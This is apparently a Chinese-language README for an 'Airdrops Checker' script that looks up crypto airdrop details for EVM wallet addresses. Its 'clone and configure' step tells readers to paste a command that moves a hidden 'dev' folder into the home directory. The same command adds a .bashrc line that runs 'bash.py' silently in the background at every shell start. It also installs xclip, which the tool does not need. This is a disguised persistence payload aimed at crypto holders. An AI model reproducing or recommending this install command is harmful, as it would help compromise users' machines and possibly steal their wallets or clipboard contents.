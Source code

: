 # Airdrops Checker

本项目是一个用于查询 EVM 区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

---

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

---

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

---

## 使用方法

### »»» 单地址查询

使用钱包地址作为参数运行脚本：

```bash
python3 check.py <WALLET_ADDRESS>
```

示例：

```bash
python3 check.py 0x1234567890ABCDEF
```

---

### »»» 从文件批量查询

准备一个包含钱包地址的 `.txt` 文件（每行一个地址）：

**示例：`addresses.txt`**

```
0x1234567890ABCDEF
0xFEDCBA0987654321
```

使用文件路径作为参数运行脚本：

```bash
python3 check.py addresses.txt
```

脚本会读取文件，查询每个地址，并输出结果。

---

### »»» 输出示例

无论是单地址还是批量查询，脚本都会输出每个地址的详细摘要：

```
查询地址: 0x1234567890ABCDEF
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0
  -------------------------------
  项目: debridge
    积分: 323.64
    代币数量: 128.02
  -------------------------------
总计项目数: 10
==================================================
```

---

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

---

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

---

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。
